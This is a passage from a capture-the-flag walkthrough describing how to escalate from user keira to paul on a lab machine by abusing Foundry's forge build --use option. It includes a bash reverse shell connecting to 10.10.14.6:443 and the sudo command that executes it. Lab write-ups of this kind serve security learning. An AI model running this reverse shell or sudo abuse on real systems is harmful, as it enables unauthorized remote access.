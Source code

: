 There are many ways to exploit this. I’ll show three:

```

flowchart TD;
    subgraph identifier[" "]
      direction LR
      start1[ ] --->|intended| stop1[ ]
      style start1 height:0px;
      style stop1 height:0px;
      start2[ ] --->|unintended| stop2[ ]
      style start2 height:0px;
      style stop2 height:0px;
    end
    A[Shell as keira]-->B(<a href='#via-build'>build Command\n--use Execution</a>);
    B-->C[Shell as paul];
    A-->D(<a href='#via-flatten'>flatten Command\nFile Write</a>);
    D-->C;
    A-->E(<a href='#via-path-hijack'>Relative\nPath Hijack</a>);
    E-->C;

linkStyle default stroke-width:2px,stroke:#FFFF99,fill:none;
linkStyle 1,2,3,4,5 stroke-width:2px,stroke:#4B9CD3,fill:none;
style identifier fill:#1d1d1d,color:#FFFFFFFF;

```

#### Via build

The `build` command ([docs](https://book.getfoundry.sh/reference/forge/forge-build)) in `forge` has a `--use` option:

> `--use` *solc\_version*
> Specify the solc version, or a path to a local solc, to build with.
>
> Valid values are in the format `x.y.z`, `solc:x.y.z` or `path/to/solc`.

This invokes a specific binary as the compiler!

I’ll create a simple [bash reverse shell](https://www.youtube.com/watch?v=OjkVep2EIlw) and set it as executable:

```

[keira@blockblock shm]$ echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.14.6/443 0>&1' | tee shell.sh
#!/bin/bash

bash -i >& /dev/tcp/10.10.14.6/443 0>&1
[keira@blockblock shm]$ chmod +x shell.sh

```

Running `forge build --use ./shell.sh` hangs:

```

[keira@blockblock shm]$ sudo -u paul /home/paul/.foundry/bin/forge build --use ./shell.sh 

```
